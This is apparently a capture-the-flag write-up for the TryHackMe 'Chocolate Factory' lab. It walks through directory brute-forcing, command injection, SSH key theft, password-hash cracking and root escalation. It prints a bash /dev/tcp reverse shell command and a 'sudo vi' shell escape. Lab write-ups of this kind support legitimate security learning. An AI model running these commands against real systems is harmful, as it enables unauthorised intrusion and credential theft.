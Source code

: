 
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on 1

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

**"home.php"**

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

**"validate.php"** , look like input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  `uname -a` command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
```
 


remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as `www-data` !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , `key_rey_key` seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the `validate.php` code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into `rsa_key` file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172491-9d319600-ba98-11eb-842f-6a0191b2e1e0.png"/>
</p>

After successfully login , you are now `charlie`
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172598-bd615500-ba98-11eb-9ae0-21a7e14e2af2.png"/>
 </p>
 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172772-ea156c80-ba98-11eb-9d69-1bde7535386f.png"/>

</p>
And we got the user flag !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173016-352f7f80-ba99-11eb-8cdd-19c7f06259af.png"/>
 </p>
 
 now the root flag ! 
 type  `sudo -l` to check sudo permission for charlie
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173732-3b722b80-ba9a-11eb-8dca-d8db75cd78e7.png"/>
</p>

by checking at <a href="https://gtfobins.github.io">GTFO bins</a> we found that vi can be exploited
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173881-6fe5e780-ba9a-11eb-9760-a12f4680167b.png"/>
 
 ```
 sudo vi -c ':!/bin/sh' /dev/null
 ```
</p>

We are now ROOT YEAH BOI and we found one python file (probably flag)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174264-f1d61080-ba9a-11eb-8277-ab7fb5d64380.png"/>
</p>

 Enter the key we found earlier and we got the flag !
  <p align="center">
 <image src="https://user-images.githubusercontent.com/78603128/119174570-51ccb700-ba9b-11eb-94de-4e24d661a787.png"/>
 </p>
   <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174584-56916b00-ba9b-11eb-83ee-b3ab5c78817f.png"/>
 </p>

## Hands on 2
Alternatively , to get charlie's password to log into the web browser we can use nmap/rustsan to scan for network open ports revealed the `` ftp service `` exists and contain one image (**gum_room.jpg**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174953-ce5f9580-ba9b-11eb-96fa-28042a4b4c6c.png"/>
</p>

we can login as ``Anonymous`` and get the image file
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175296-3ada9480-ba9c-11eb-973a-9963a924335d.png"/>
</p>

 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175751-d0762400-ba9c-11eb-8734-d6c744484b69.png"/>
</p>

look like ordinary picture but there can be something hidden inside pictures >:D (**Steganography**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176018-26e36280-ba9d-11eb-9392-fbed6f605106.png"/>
</p>

Using ``steghide`` we found a text file **(b64.txt)** with base 64 string 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176294-7f1a6480-ba9d-11eb-97b9-b88e506e0cef.png"/>
</p>

Decrypt it and we got all user leaked ``etc/passwd``
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176446-b557e400-ba9d-11eb-8263-1c8284cc46ac.png"/>
</p>
including charlie's
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176620-e801dc80-ba9d-11eb-9a52-35f06cef4585.png"/>
</p>

paste the hash into a empty file (in my case : charlieCreds) and put it at ``john the ripper`` and let john do the job !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176966-46c75600-ba9e-11eb-9f91-42445e2e2123.png"/>
</p>

then paste the pass and login charlie on the website
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119177393-da008b80-ba9e-11eb-9567-da6126fd8d24.png"/>
</p>












